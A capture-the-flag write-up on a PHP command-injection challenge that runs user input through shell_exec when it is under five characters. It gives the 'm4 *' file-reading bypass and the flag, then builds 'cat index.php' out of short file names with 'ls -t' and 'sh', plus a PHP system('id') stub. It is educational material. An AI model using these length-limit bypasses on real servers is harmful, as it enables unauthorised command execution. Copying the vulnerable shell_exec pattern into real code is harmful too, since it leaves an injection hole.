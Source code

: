 # DefCamp CTF - para-code

## Description
Command injecion 4 characters limited
```php
if (strlen($_GET['start']) < 5){
  echo shell_exec($_GET['start']);
}
```

If we can inject `cat *`, we could read all files in the directory but this command has 5 characters so it's doesn't work.

## Bypass
```bash
# using m4(same as cat)
m4 *
```

**flag**: `791b21ee6421993a8e25564227a816ee52e48edb437909cba7e1e80c0579b6be`


## Extended

**In bash, write file input from stdin**:
```bash
>cmd.php
#> <?php system('id'); ?>
cat cmd.php # <?php system('id'); ?>
```

**From that, we got**:
```bash
>php # newline - end command here!
>ex.\\
>ind\\
>\ \\
>cat\\

ls -t>_ # sort by time, in real senario, we have to write a file for this task, just like below

sh _
# hello
```

`_` file:
```bash
cat _
#_            error command/not command auto ignores
#cat\
# \
#ind\
#ex.\
#php
#index.php
```

# References:
https://github.com/orangetw/My-CTF-Web-Challenges#babyfirst-revenge-v2
